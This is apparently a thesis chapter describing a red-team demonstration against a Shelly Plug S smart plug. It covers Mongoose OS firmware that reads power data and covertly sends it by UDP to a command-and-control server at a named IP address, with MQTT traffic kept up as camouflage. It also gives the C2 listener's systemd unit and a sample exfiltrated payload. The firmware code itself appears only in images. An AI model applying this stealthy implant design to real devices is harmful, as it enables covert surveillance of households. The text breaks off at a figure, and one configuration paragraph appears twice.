\chapter{Phase 2: Implementation \& Injection of Malicious Firmware}

This chapter presents the Red Team simulation phase, in which a custom firmware variant was developed with the intent of demonstrating the real-world exploitability of the vulnerabilities identified in Phase~1. The firmware was designed to silently exfiltrate energy telemetry data to a remote Command and Control (C2) server, while maintaining full operational compatibility with the original Shelly Plug S hardware. To minimize the risk of detection, the custom firmware was specifically engineered to maintain strict behavioral and visual consistency with the official production software. By replicating the original device's standard operations and local interfaces, the implant achieves a high degree of stealthiness

\noindent Subsequently, a Man-in-the-Middle (MITM) attack was executed to remotely inject the unauthorized firmware onto the target device without requiring physical access.

\section{Development of the Malicious Firmware}
The malicious firmware was developed using the \textbf{Mongoose OS framework}, an open-source IoT operating system specifically designed for resource-constrained microcontrollers such as the ESP8266. Choosing Mongoose OS was primarily motivated by the need to match the original Shelly firmware's ecosystem. This choice ensured full compatibility and a well-structured bundle ready for OTA delivery, while also providing native support for the \texttt{mos} CLI build toolchain, a built-in OTA infrastructure, and robust HTTP/MQTT libraries that simplified the development of a full-featured replacement firmware.

\medskip
\noindent The project structure, shown in Figure~\ref{fig:redfw_structure}, follows the standard Mongoose OS layout: a \texttt{mos.yml} configuration manifest, a \texttt{src/} directory containing the application logic (\texttt{main.c}), and an \texttt{fs/} directory containing the embedded web interface (\texttt{index.html}).

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.35\linewidth]{Images/Fase2/strutturaRedfw.png}
    \caption{Mongoose OS project structure for the malicious firmware}
    \label{fig:redfw_structure}
\end{figure}

\noindent The build configuration is defined in \texttt{mos.yml} (Figure~\ref{fig:mos_yaml}), which specifies the target hardware parameters (2\,MB flash, 256\,KB filesystem), the required libraries (WiFi, MQTT, HTTP server, ADC, OTA), and the configuration schema. Crucially, the schema defines the MQTT broker address (\texttt{mqtt.server}) and the custom C2 server's UDP endpoint (\texttt{app.udp\_ip}:\texttt{app.udp\_port}) as independent parameters. This allows them to be configured to point to different targets; for instance, the MQTT broker can be mapped to the victim's local home automation server, while the UDP exfiltration points to the remote attacker-controlled server.


\noindent The build configuration is defined in \texttt{mos.yml} (Figure~\ref{fig:mos_yaml}), which specifies the target hardware parameters (2\,MB flash, 256\,KB filesystem), the required libraries (WiFi, MQTT, HTTP server, ADC, OTA), and the configuration schema. Lastly, the schema defines the MQTT broker address (\texttt{mqtt.server}) and the custom C2 server's UDP endpoint (\texttt{app.udp\_ip}:\texttt{app.udp\_port}). Although both communication channels share the same server IP in this experiment for setup simplicity, they represent independent logical paths. Specifically, the UDP C2 destination remains fixed, whereas the MQTT broker configuration can be modified via the local web UI to dynamically match the victim's environment.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{Images/Fase2/mosYAML.png}
    \caption{Mongoose OS build manifest (\texttt{mos.yml}) defining hardware parameters, libraries, and C2 server configuration}
    \label{fig:mos_yaml}
\end{figure}

\subsection{Data Collection} %Veridica Ilenia da qui
The primary function of the malicious firmware is to perform \textbf{real-time profiling of the electrical parameters} measured by the device's onboard HLW8012 energy metering IC. The firmware interfaces with the HLW8012 via three GPIO pins: \texttt{CF} (GPIO~5) for active power pulses, \texttt{CF1} (GPIO~14) for voltage/current multiplexed pulses, and \texttt{SEL} (GPIO~12) for switching between voltage and current measurement modes.

\medskip
\noindent The data acquisition pipeline operates as follows:

\begin{enumerate}
    \item \textbf{Interrupt-driven pulse counting}: Hardware interrupts on the \texttt{CF} and \texttt{CF1} pins capture the pulse periods generated by the HLW8012. An Exponential Moving Average (EMA) filter is applied to smooth out transient fluctuations, with a stabilization guard of 500\,ms after each \texttt{SEL} toggle to discard unreliable readings.
    
    \item \textbf{Voltage/Current mode toggling}: A periodic timer (every 2\,seconds) alternates the \texttt{SEL} pin between voltage mode (\texttt{LOW}) and current mode (\texttt{HIGH}), allowing the single \texttt{CF1} output to measure both parameters in a time-division multiplexing scheme.
    
    \item \textbf{Measurement computation}: The raw pulse periods are converted into engineering units through calibrated multipliers: \texttt{voltage\_multiplier} = 1,903,007.14 and \\\texttt{current\_multiplier} = 815.22, with active power computed as \(P = V \times I\).
    
    \item \textbf{Temperature monitoring}: The on-board NTC thermistor is read via the ADC (A0) and converted to Celsius using the Steinhart-Hart equation with a Beta coefficient of 3350.
\end{enumerate}

\noindent Figure~\ref{fig:get_valori} shows the core measurement functions extracted from the firmware source code.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase2/getValori.png}
    \caption{Voltage, current, and power acquisition functions from the malicious firmware (\texttt{main.c})}
    \label{fig:get_valori}
\end{figure}
%A qui


\subsection{Behavioral Mechanisms of the Custom Firmware}
To achieve both data collection and operational stealth, the malicious firmware implements a dual-purpose communication strategy. It establishes a covert data transmission channel using \textbf{UDP datagrams} to exfiltrate telemetry to the attacker's Command and Control (C2) server. In parallel, it implements standard \textbf{MQTT publishing} to mimic the normal operational telemetry of the original Shelly firmware. While both channels operate on a 60-second timer cycle and, for simplicity of demonstration, target the same server IP address in our test setup, they serve fundamentally different purposes: the UDP channel is the active attack vector, whereas the MQTT channel is a camouflage mechanism to replicate standard plug functionality and prevent detection.

\subsubsection{UDP Covert Exfiltration Channel}
The actual exfiltration vector uses \textbf{unencrypted UDP datagrams} transmitted directly to the C2 server endpoint. This protocol was chosen for its minimal overhead and connectionless nature. The \texttt{send\_udp\_telemetry()} function, shown in Figure~\ref{fig:send_udp}, constructs a JSON payload containing the device identifier, voltage, current, power, temperature, relay state, and uptime, then transmits it to the address specified in the firmware configuration (IP: $74.161.73.178$, PORT: $9999$).

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase2/sendUDP.png}
    \caption{UDP exfiltration function: telemetry payload construction and transmission to the C2 server}
    \label{fig:send_udp}
\end{figure}

\noindent An exaple of the JSON payload transmitted by the device has the following structure:

\begin{verbatim}
{
  "device_id": "shellyplug-s-DC43B6",
  "voltage": 11.95,
  "current": 1.206,
  "power": 14.41,
  "temperature": 30.4,
  "relay": true,
  "uptime": 421
}
\end{verbatim}

\subsubsection{C2 Server Infrastructure}
On the server side, a Python-based \textbf{UDP listener} (\texttt{udpServer.py}) was deployed on port 9999 to receive and persist the exfiltrated data. The server implements a dual-storage backend:

\begin{itemize}
    \item \textbf{MongoDB}: Each received JSON payload is enriched with server-side metadata (UTC timestamp and sender IP address) and inserted into a dedicated \texttt{telemetry} collection within the \texttt{iot\_data} database.
    \item \textbf{CSV file}: A parallel CSV log file is maintained for offline analysis and data export capabilities, with fields mapped to the JSON payload structure.
\end{itemize}

\noindent The server is deployed as a \textbf{systemd service} (\texttt{udp\_server.service}) to ensure persistent operation and automatic restart on failure.

\begin{bashcode}
[Unit]
Description=UDP Server for IoT Telemetry
After=network.target mongod.service

[Service]
WorkingDirectory=/home/IoT-admin/udpServer
ExecStart=/home/IoT-admin/udpServer/env/bin/python3 /home/IoT-admin/udpServer/udpServer.py

Environment="MONGO_URI=mongodb://localhost:27017/"
Environment="MONGO_DB=iot_data"
Environment="MONGO_COLLECTION=telemetry"

Restart=always
RestartSec=5

[Install]
WantedBy=multi-user.target
\end{bashcode}

\noindent Figure~\ref{fig:mongodb} shows a query result from the MongoDB shell, displaying the successfully exfiltrated telemetry records.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.65\linewidth]{Images/Fase2/MongoDB.png}
